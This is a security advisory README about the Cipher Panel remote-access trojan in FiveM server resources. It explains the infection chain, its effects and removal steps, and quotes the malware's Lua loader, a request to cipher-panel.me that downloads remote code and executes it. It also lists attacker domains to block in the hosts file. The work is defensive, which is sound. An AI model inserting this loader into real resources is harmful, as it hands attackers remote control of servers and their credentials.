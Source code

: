 # Cipher Panel
Cipher is a paid Remote Execution/Administration Tool (RAT). Cipher's customers generate 4 lines of Lua code to inject into resources (many of them obfuscate the code) which will download remote code from the Cipher servers. We've found many leaked resources are infected with Cipher-Panel. This repository will talk more about how Cipher works.



# How Cipher Works
Cipher works by releasing infected code/resources to the FiveM public. Server owners/developers take the code (that they don't know is infected) and install it on their servers. Once the resource is installed and ran it will inject its code into other previously clean resources.

The initial infected code boils down to the following:

```Lua
PerformHttpRequest('https://cipher-panel.me/_i/i?to=UNIQUECODE', function (e, d)
	local s = assert(load(d))
	if (d == nil) then return end 
	s() 
end)
```

The Unique Code in the URL request is the Cipher user that now has control of your server. Once this code is run it downloads the remote code (from Cipher) and runs it on line 4 as a function.

This is the basis on how most of Cipher works. It proceeds to download several more requests (found in the code returned by Cipher) and will continue until it injects more pre-existing resources.

After the code is run, it will upload some javascript and override existing files within the system builders directory. 

`resources\[system]\[builders]` 

The code will start propagating itself within all of your resources and files within the fivem server installation to make it difficult to remove.

At this stage, its armageddon and all files within the server are compromised meaning files can be downloaded, uploaded, edited and viewed, including but not limited to just the server.cfg, sql credentials or even steal your cfx license keys. They’re also able to run remote code on the server which leads to the last step.

Cipher is a rat that has the capability of gaining full system administrator access to take over the host machine it's run on. It does this by using powershell to download a rat executable and also add / alter users to provide remote desktop access to your server. This back door approach also supports linux too. 

Cipher customers have been seen attempting to extort servers for money paid in crypto currency in exchange to deter the user of cipher from deleting the server entirely. 

Read Infection Documentation for more information on what it expands into.



# How to remove Cipher.

If you have been infected with Cipher, this is what you must do:

Disconnect from the internet your server and access it via KVM (if possible).

Blacklist their domains on your firewall. This will will slow them down however we’ve seen instances where they will use proxies to evade this but on most leaks this will help.

Edit the hosts file `C://windows/system32/drivers/etc/hosts.txt` and add.

`
0.0.0.0 cipher-panel.me 
0.0.0.0 ciphercheats.com
0.0.0.0 dark-utilities.xyz
`

Install an antivirus software on the host machine to scan for any backdoors / rats. 

Check the system admins on the machine to verify that no unauthorized accounts exist.

Change any passwords you have on the host machine to ensure that they don’t have access.

While your fivem server is turned off, use the provided python script to install a nullifier which will help prevent future infections of cipher and tell you what files are infected. 
 
You can also install this code manually however we expect cipher will attempt to patch this.

scheduler.lua


**Make sure you do not run your FiveM server as ROOT (Linux) or Administrator (Windows)**



# Other things you can do to prevent being attacked by cipher

Consider adding the [Warden](https://discord.com/invite/jeFeDRasfs) to your discord server. It's a great resource that can help remove cheaters and leakers (people who participate in sharing leaked paid resources) from your community or support hack products like cipher. 

Make sure to install the latest updates of whatever framework you are using for [ESX](https://github.com/esx-framework/esx-legacy) | [ESX Discord](https://discord.esx-framework.org) [QBCore](https://github.com/qbcore-framework/qb-core) | [QBCore Discord](https://discord.gg/qbcore) 

Consider investing into a good anticheat for your server like [Phoenix Anticheat](https://discord.com/invite/pac) or [FiveEye](https://dsc.gg/FiveEye) or any other anti-cheat that you feel comfortable using. 

Buy resources from only reputable places that you feel comfortable purchasing from either Tebex listed stores or from places like [Modit](https://modit.store/), if you're unsure about a store, perhaps ask for guidance on the warden discord. 

Be extremely sketchy on code you get that is encrypted or downloaded from shady sources.

Lastly, the most important thing… DON'T USE LEAKED RESOURCES!


## Cipher Customers

If you are a customer of cipher, we suggest canceling your subscriptions and getting a refund.
